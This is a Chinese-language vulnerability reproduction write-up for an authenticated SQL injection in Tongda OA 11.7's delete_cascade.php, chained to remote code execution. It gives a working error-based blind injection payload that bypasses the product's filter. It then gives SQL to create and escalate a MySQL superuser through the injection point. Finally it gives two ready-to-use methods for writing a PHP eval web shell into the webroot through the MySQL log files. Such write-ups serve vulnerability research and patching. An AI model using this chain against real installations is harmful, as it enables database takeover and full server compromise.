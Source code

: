 通达oa 11.7 后台sql注入漏洞&rce
===============================

一、漏洞简介
------------

### 利用条件：

需要登陆后台

二、漏洞影响
------------

通达oa 11.7

三、复现过程
------------

注入出现在`general/hr/manage/query/delete_cascade.php`文件中，代码实现如下：

![1.png](/Users/aresx/Documents/VulWiki/.resource/通达oa11.7后台sql注入漏洞&rce/media/rId25.png)

首先判断`$condition_cascade`是否为空，如果不为空，则将其中的\'替换为\'。为什么要这样替换呢，主要是因为V11.7版本中，注册变量时考虑了安全问题，将用户输入的字符用addslashes函数进行保护，如下：

`inc/common.inc.php`代码

![2.png](/Users/aresx/Documents/VulWiki/.resource/通达oa11.7后台sql注入漏洞&rce/media/rId26.png)

因为是无回显机制，是盲注，所以尝试(select 1 from (select
sleep(5))a)，结果没那么简单：

![3.png](/Users/aresx/Documents/VulWiki/.resource/通达oa11.7后台sql注入漏洞&rce/media/rId27.png)

触发了通达OA的过滤机制，翻看代码，在`inc/conn.php`文件中找到过滤机制如下:

![4.png](/Users/aresx/Documents/VulWiki/.resource/通达oa11.7后台sql注入漏洞&rce/media/rId28.png)

其过滤了一些字符，但是并非无法绕过，盲注的核心是：substr、if等函数，均未被过滤，所以还是有机会的。

传入错误的SQL语句时，页面出错：

![5.png](/Users/aresx/Documents/VulWiki/.resource/通达oa11.7后台sql注入漏洞&rce/media/rId29.png)

那么只要构造MySQL报错即可配合if函数进行盲注了，翻看局外人师傅在补天白帽大会上的分享，发现`power(9999,99)`也可以使数据库报错，所以构造语句：

    select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错

![6.png](/Users/aresx/Documents/VulWiki/.resource/通达oa11.7后台sql注入漏洞&rce/media/rId30.png)

![7.png](/Users/aresx/Documents/VulWiki/.resource/通达oa11.7后台sql注入漏洞&rce/media/rId31.png)

### 构造利用链

> 添加用户：

    grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

![8.png](/Users/aresx/Documents/VulWiki/.resource/通达oa11.7后台sql注入漏洞&rce/media/rId33.png)

![9.png](/Users/aresx/Documents/VulWiki/.resource/通达oa11.7后台sql注入漏洞&rce/media/rId34.png)

然后该用户是对mysql数据库拥有所有权限的,然后给自己加权限：

    UPDATE `mysql`.`user` SET `Password` = '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('at666' AS Binary(5));

![10.png](/Users/aresx/Documents/VulWiki/.resource/通达oa11.7后台sql注入漏洞&rce/media/rId35.png)

然后用注入点刷新权限，因为该用户是没有刷新权限的权限的：`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`这样就拥有了所有权限。再次登录：

![11.png](/Users/aresx/Documents/VulWiki/.resource/通达oa11.7后台sql注入漏洞&rce/media/rId36.png)

提示这个，或者让改密码死活改不了。再执行一下

    grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

![12.png](/Users/aresx/Documents/VulWiki/.resource/通达oa11.7后台sql注入漏洞&rce/media/rId37.png)

### 写shell

    # 查路径：
    select @@basedir; # c:\td0a117\mysql5\，那么web目录就是c:\td0a117\webroot    # 方法1：
    set global slow_query_log=on;
    set global slow_query_log_file='C:/td0a117/webroot/tony.php';
    select '<?php eval($_POST[x]);?>' or sleep(11);
    # 方法2：
    set global general_log = on;
    set global general_log_file = 'C:/td0a117/webroot/tony2.php';
    select '<?php eval($_POST[x]);?>';
    show variables like '%general%';

![13.png](/Users/aresx/Documents/VulWiki/.resource/通达oa11.7后台sql注入漏洞&rce/media/rId39.png)
